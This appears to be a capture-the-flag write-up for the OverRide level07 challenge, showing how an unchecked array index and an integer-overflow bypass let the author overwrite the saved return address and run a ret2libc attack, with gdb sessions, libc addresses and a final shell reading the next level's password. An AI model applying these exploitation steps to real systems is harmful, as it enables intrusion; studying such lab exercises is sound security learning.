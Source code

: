 # Level 07

Level 07's program is a number storer/reader.
It stores the numbers in an `char v6[400]` but it doesn't do bounds checking, so we have to take advantage of that.

It does do some checking, namely if the index is divisible by 3 or if HIBYTE(index) == 183 we are not allowed to write there.
But we can bypass that by giving indices which are bigger than INT_MAX.

```shell
(gdb) b read_number 
Breakpoint 1 at 0x80486dd
(gdb) r
[...]
(gdb) x/x $ebp + 0x8
0xffffd5b0:	0xffffd5d4
# 0xffffd5d4 is the value of the passed argument,
# 0xffffd5b0 is where it is being stored inside `read_number`
```

By trial and error, we find that the saved EIP is at index 114.
Trying to store a number at 114 tells us the index is reserved for Wil, so using [bitwiseCMD](https://bitwisecmd.com/) (`MIN_INT | 114`) we get index -2147483534.
Storing an integer at that index lets us overwrite the EIP.
Now we just need to store our Ret2Libc attack on indices 114, 115 and 116.

```shell
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system> # 4159090384 in Decimal
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>  # 4159040368 in Decimal
(gdb) info proc map
process 1965
Mapped address spaces:
[...]
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
[...]
(gdb) find 0xf7e2c000, 0xf7fd0000, "/bin/sh"
0xf7f897ec # 4160264172 in Decimal
1 pattern found.
```

## Now all together!
```shell
level07@OverRide:~$ ./level07 
[...]
Input command: store
 Number: 4159090384
 Index: -2147483534
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 115
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ cat /home/users/level08/.pass
[deleted]
```
